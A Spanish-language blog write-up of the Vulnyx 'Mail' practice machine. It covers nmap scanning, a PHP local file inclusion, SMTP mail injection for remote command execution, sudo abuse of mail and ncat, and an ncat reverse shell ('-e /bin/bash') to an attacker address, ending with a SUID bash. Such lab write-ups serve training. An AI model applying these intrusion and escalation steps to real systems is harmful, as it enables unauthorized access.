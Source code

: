 ```yaml
---
layout: post
title:  "Mail - Vulnyx"
date:   2025-08-14
categories: [Vulnyx]
tags: [Vulnyx, PHP, LFI, SMTP, Mail Injection, Command Injection]
image: "../assets/machines/Vulnyx_Mail/vulnyx.png"
---
```

Esta maquina pertenece a Vulnyx, es de dificultad media y tiene uno que otro concepto interesante de vulnerabilidades programadas en PHP.

![](/assets/machines/Vulnyx_Mail/info.png)

# Fase de reconocimiento:
Bueno, esta maquina la estamos corriendo en **LOCAL**, si deseamos encontrar maquinas en toda nuestra red local, podemos emplear el comando:
{% highlight bash %}
sudo arp-scan -l
{% endhighlight %}
Iniciamos la <span class="color-text-salmon">**FASE DE RECONOCIMIENTO**</span>, usando nuestra herramienta de confianza:
{% highlight bash %}
nmap -T5 -n -Pn <IP>
{% endhighlight %}
Obteniendo como resultado los siguientes puertos abiertos:
- `22` del SSH.

- `25` del SMTP.

- `80` de un servicio WEB.

![](/assets/machines/Vulnyx_Mail/1.png)

Si analizamos la web, encontraremos lo siguiente:

![](/assets/machines/Vulnyx_Mail/2.png)

Si interactuamos con el **BOTON** "search", se nos hara redireccion a una funcion en <span class="color-text-blue">**PHP**</span>.
![](/assets/machines/Vulnyx_Mail/3.png)
Si vamos buscando por distintos valores, vamos a encontrar correos de 2 usuarios: `abel` y `cain`. Ambos hablan sobre perdida de credenciales.

Lo que nos importa es buscar si podemos hacer un cambio en el parametro que le pasamos a la funcion, para por ejemplo ver si podemos ejecutar comandos o listar directorios.
![](/assets/machines/Vulnyx_Mail/4.png)
Como podemos ver, si apuntamos al `/etc/passwd`, tenemos un <span class="color-text-blue">**LFI**</span>(Local File Inclusion). Por lo que podemos intentar muchos vectores de ataque.

Si bien vimos que tenemos el puerto 25 del **TELNET**, podemos aprovecharnos de que podemos leer estos correos y extraer informacion como:

-`mail.nyx`

-`abel@mail.nyx` y `cain@mail.nyx`

Si hacemos una busqueda rapida en internet, veremos que existen distintas instrucciones para lograr enviar un correo, y podemos usar la interpretacion de PHP por lado del servidor para ejecutar comandos, la estructura para lograr esto seria
{% highlight go %}
telnet <IP> 25
Trying <IP>...
Connected to <IP>
Escape character is '^]'.
220 mail.home ESMTP Postfix (Debian/GNU)
HELO mail.nyx
250 mail.home
MAIL FROM: cain@mail.nyx
250 2.1.0 Ok
RCPT TO: abel@mail.nyx
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<FUNCION MALICIOSA>
ESTO ES UN MENSAJE DE PRUEBA
.
250 2.0.0 Ok: queued as 8AC7E2AF
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
{% endhighlight %}

![](/assets/machines/Vulnyx_Mail/5.png)

Si nos ha salido todo conforme, nos quedara apuntar a la ruta del que recibe el mensaje, en este caso `abel` -> `/var/mail/abel`

![](/assets/machines/Vulnyx_Mail/6.png)

Y como podemos ver, tenemos <span class="color-text-orange">**ejecucion remota de comandos**</span>.

Por lo que nos queda ganar acceso a la maquina, usaremos **URL-ENCODE**.
![](/assets/machines/Vulnyx_Mail/7.png)
Y como podemos ver, ya hemos ganado acceso al usuario `cain`, por los que nos toca pivotar al usuario `abel`.
![](/assets/machines/Vulnyx_Mail/8.png)
Y vemos que podemos ejecutar como el usuario `abel`, el comando mail, y podremos aprovechar la funcion exec que tiene indicado en su documentacion.
![](/assets/machines/Vulnyx_Mail/9.png)
Por lo que podemos tratar de summonearnos una bash.
Y como vemos, tenemos el acceso para el usuario `abel`, este a su vez tiene permisos de ejecutar como usuario `root` la herramienta `/usr/bin/ncat` usando IPv6 y cualquier parametro adicional.
![](/assets/machines/Vulnyx_Mail/10.png)
Si vemos la documentacion que tiene `NCAT`, podemos ver que tambien nos puede ejecutar comandos.
![](/assets/machines/Vulnyx_Mail/11.png)
Por lo que nos queda seguir la siguiente estructura:
- Necesitaremos obtener nuestra direccion IPv6, esta la encontraremos con el comando `ip a`

- Necesitamos el nombre o el alter-name de la red de la maquina, en este caso es `ens33` o su alter `enp2s1`
{% highlight python %}
# Para el listener
ncat -6 -lvp <PUERTO>
{% endhighlight %}
![](/assets/machines/Vulnyx_Mail/12.png)
{% highlight python %}
# Para la shell
/usr/bin/ncat -6 <IPv6 del Atacante>%<Nombre de la red> -e /bin/bash
{% endhighlight %}
![](/assets/machines/Vulnyx_Mail/13.png)
En este caso, yo estoy dandole permiso SUID a la bash, para poder ejecutar el privileged.

![](/assets/machines/Vulnyx_Mail/14.png)

# FIN
